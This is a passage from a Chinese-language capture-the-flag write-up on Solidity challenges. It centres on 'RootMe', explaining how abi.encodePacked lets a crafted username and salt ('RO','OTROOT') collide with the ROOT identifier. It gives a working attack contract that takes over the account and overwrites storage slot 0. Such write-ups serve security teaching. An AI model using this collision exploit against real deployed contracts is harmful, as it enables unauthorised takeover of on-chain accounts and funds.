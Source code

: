 部署后攻击合约为`0x3791eeD6c8fedAf433C8ce53B8Fa69C11e0b237D`发起进攻，Hash为`0x6ced57a2de0f1dfe348f61b77e766d330a8c123cac2296cd61146796170940e9`，攻击后已经修改成功。

<hr />

# 2. RootMe

注意要点在于

`accountByIdentifier[identifier] = msg.sender`

而`identifier = keccak256(abi.encodePacked(user, salt));`

因为`abi.encodePacked`解释如下：

`types shorter than 32 bytes are concatenated directly, without padding or sign extension`

因此，虽然在部署时`ROOT`、`ROOT`的输入，但`ROOTR`、`OOT`也能encode出同样的效果。

攻击合约如下：

```solidity
pragma solidity  ^0.8.0;

interface IRootMe{
    function register(string memory username, string memory salt) external;
    function write(bytes32 storageSlot, bytes32 data) external;

}

contract RootMeHacker {

    constructor(){

    }

    function testEncodePackedValue(string memory user, string memory salt) public pure returns (bytes memory) {
        bytes memory packed = abi.encodePacked(user, salt);
        return packed;
    }

    function attack(address target,bytes32  slot, bytes32  content) public{
        IRootMe(target).register("RO","OTROOT");
        IRootMe(target).write(slot,content);
    }
}
```

部署合约地址为`0xb92F069Aec3Ae791fA717FFC0D9FAE73039bB1a5`。这里先用`testEncodePackedValue`测试，(`ROOT`、`ROOT`)的输入其实只是将值拼接`0x524f4f54524f4f54`，`R`的Ascii值为82，对应`Hex`就是`0x52`。

同时，我们先通过`register`获取权限，再通过`write`写入slot`0000000000000000000000000000000000000000000000000000000000000000`中的值为`0000000000000000000000000000000000000000000000000000000000000001`。（记得传参时，前面需要加上0x）。攻击后已经修改完成。
